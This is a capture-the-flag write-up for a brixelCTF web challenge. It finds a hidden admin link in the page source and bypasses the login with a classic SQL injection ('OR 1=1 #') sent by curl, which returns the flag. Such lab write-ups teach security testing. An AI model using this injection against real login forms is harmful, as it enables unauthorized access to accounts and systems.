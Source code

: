 # Flat Earth
**Category:** [Internet](../README.md)

**Points:** 10

**Description:**

These idiots... I heard there is a rally of flat earth believers tomorrow

We should access their admin panel and stop that rally from happening!

http://timesink.be/flatearth/

## Write-up
When visting the website above, you are presented with this front page:

![Front page](front_page.png)

Looking at the source, we can see that there is a hidden link (the text colour is the same as the background) that takes us to the *admin.php* page:
```html
<html>
<title>Flat Earth Believers</title>
<body bgcolor="#000000" text="white">
	<div align="center"><h1>The earth is flat!</h1></div>
	<hr>
	<div align="center">
		<p>Ever since that Greek idiot Eratosthenes claimed that the earth is round, we have been living in a lie.</p>
		<p><img src="images/ATuin.jpg" alt="flat earth"></p>
		<p>The earth is not round! It is a flat disk set on top of a turtle travelling trough space!</p>
		<p>We believe that the government is actively trying to hide this great truth from us by sending us pictures from <b>their OWN</b> so called 'space administration' or 'nasa'</p>
		<p>Therefor we must unite against the government! Join our protests that are taking place all around the globe.</p>
		<br>
		<p>Next protest:</p>
		<p><script type="text/javascript">var tomorrow = new Date();tomorrow.setDate(tomorrow.getDate() + 1);document.write(tomorrow.toLocaleDateString("nl-NL"));</script></p>
		<p>Joe's warehouse on 11th street, Hoboken New Jersey</p>
		<br><br>
		<p><a href="admin.php"><font color="#000000">administration</font></a></p>
	</div>
</body>
</html>
```
Visiting that admin page, we get a web form:

![Web Form](web_form.png)

The source for this shows a form using the *POST* method with two parameters - `username` and `password`:
```html
<html>
<title>FEB admin</title>
<body>
	<form name="login" method="POST" action="admin.php">
		<p>Welcome, please log in</p>
		<p>Username:&nbsp;<input type="text" name="username"></p>
		<p>Password:&nbsp;<input type="password" name="password"></p>
		<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<input type="submit" value="log in">
	</form>
</body>
</html>
```
We can try a standard SQL injection here to see if the site uses an SQL database to check usernames and passwords:
```
> curl --data "username=%27%20OR%201=1%20%23&password=pass" http://timesink.be/flatearth/admin.php
That should do the trick, the flag is brixelCTF{<flag was here>}
```
That worked and gave us the flag!
